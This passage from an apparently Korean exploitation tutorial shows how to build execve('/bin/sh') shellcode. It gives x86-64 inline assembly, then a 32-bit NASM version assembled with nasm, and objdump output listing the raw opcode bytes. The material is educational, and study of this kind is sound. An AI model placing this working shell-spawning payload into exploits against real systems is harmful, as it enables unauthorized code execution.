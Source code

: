 #### 2) execve 셸코드 컴파일 및 실행

스켈레톤 코드를 이용하여 execve 셸코드 컴파일링

```bash
__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"
    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");
void run_sh();
int main() { run_sh(); }
```

#### 3) objdump 를 이용한 shellcode 추출

<br />

```bash
; File name: shellcode.asm
section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0xb
int    0x80
```

<br />

objdump를 이용하여 shellcode를 추출하기 위해서 최초로 apt-get install nasm을 실행해줘야 합니다.

```bash
$ sudo apt-get install nasm 
$ nasm -f elf shellcode.asm
$ objdump -d shellcode.o
```

결과물은 아래와 같습니다.

```bash
shellcode.o:     file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
  11:	31 d2                	xor    %edx,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
$ 
```